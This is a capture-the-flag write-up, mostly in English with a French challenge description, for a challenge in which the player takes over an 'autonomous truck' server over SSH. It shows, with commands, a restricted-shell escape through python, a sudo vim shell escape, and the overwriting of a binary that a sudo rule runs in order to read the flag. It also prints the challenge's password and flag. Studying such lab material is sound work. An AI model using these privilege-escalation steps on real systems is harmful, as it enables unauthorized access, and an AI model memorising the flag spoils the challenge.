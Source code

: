 # Alone Muks

## Description

Lors de votre récent séjour à Evil Country, vous êtes parvenu à brancher un dispositif sur le camion effectuant la livraison. Il faut maintenant trouver une faille sur le système pour pouvoir prendre le contrôle du camion autonome de la marque Lates et le rediriger vers un point d'extraction. Un agent a posé un dispositif nous permettant d'accéder au système de divertissement du véhicule. A partir de ce dernier, remontez jusqu'au système de navigation.
Connectez-vous en SSH au camion

## Connecting to the server

We have to pwn the truck using SSH to redirect the autonomous drive wherever we want. ( actually we only have to get a flag )

```
username : user
password : user
adress : challengecybersec.fr
port : 5004
```

## Breaking inside the server

When we log on the server we are prompted to another land page where we have to log-in again. But exiting the software using `^C` (CTRL + C) leaded us on a restricted bash (rbash). We were really limited in commands and permissions.

We found an executable path to python environement then we elevated ourselves permissions importing bash using python:

```
$ python -c "import os; os.system('/bin/bash')"
```

Then we wandered on the server, looking if we could add some executables to our path, and we found the most basic ones. We found what we need in `/bin`, `/usr/bin`, `/sbin`. The export command to ease our navigation : 
```
$ export PATH=$PATH:/bin:/usr/bin:/sbin
```

When we digged deeper in the /usr/bin files we found out there was a file named `update`, owned by globalSystem, in the group globalSystem, so we had to find a way to become global system. 

```
-rwxr-xr-x 1 globalSystem globalSystem   43744 Nov 15 16:28  update
```

We also searched the `/home` paths and we listed 3 home directories :

- `/user/`
- `/globalSystem/`
- `/navigationSystem/` 

The `navigationSystem` home contain the flag we need to complete the challenge. So the actual objective is trying to understand what is the `update` executable we found. But we don't have any permissions to read it.

Speaking of permissions, we had the idea of checking all the permissions we have on the user `user`:

```
$ sudo -l
Matching Defaults entries for user on b43e27468d7b: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=LD_PRELOAD
User user may run the following commands on b43e27468d7b:
(globalSystem) NOPASSWD: /usr/bin/vim 
```

So we could execute vim as globalSystem using `vim`:
```
$ sudo -u globalSystem vim
```

Then launch `bash` within `vim` :

```
:!bash
```

We tried to execute the `update` file, and it asked for a password. The password were found in the file when we opened it: `AloneIsTheBest`. The program was on infinite loop, we had to check for another way.

We also did another `sudo -l` command:
```
$ sudo -l
Matching Defaults entries for globalSystem on b43e27468d7b:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=LD_PRELOAD             
User globalSystem may run the following commands on b43e27468d7b:                                                                    
(navigationSystem) NOPASSWD: /usr/bin/update
```

And, because `globalSystem` owns the `update` file, we got the idea by replacing the whole program content. 

```
$ echo "cat /home/navigationSystem/flag.txt" > update
$ sudo -u navigationSystem update
DGSESIEE{44adfb64ff382f6433eeb03ed829afe0}
```
And we've got the flag!
